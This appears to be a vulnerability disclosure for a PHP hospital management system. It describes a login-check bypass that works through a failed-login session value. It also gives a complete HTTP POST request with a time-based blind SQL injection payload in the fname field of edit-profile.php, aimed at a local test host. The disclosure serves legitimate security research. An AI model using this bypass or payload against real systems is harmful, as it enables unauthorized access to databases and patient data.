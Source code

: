 If $_SESSION['login'] is empty in line 4, the user is not logged in, and the user is redirected to the login page through line 9.

In \hms\user-login.php:

![12.png](./img/12.png)

If the user enters the wrong username and password, line 26 assigns the username submitted by the user to $_SESSION[‘login’].

So as long as you first visit /hms/user-login.php and try to log in to an account, $_SESSION['login'] will not  be empty, you can bypass the check of the check_login function and achieve privilege elevation.


Back in \hms\edit-profile.php:

![13.png](./img/13.png)

Line 14 gets the POST variables fname, address, city, and gender values directly into the database query and causes SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/edit-profile.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 170
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/registration.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

fname=aaa'|if(substring((select user() limit 0,1),1,1)='r',sleep(5),1),address='aaaaaaa',city='ccc',gender='female' where id=2#&address=bbb&city=ccc&gender=female&submit=
```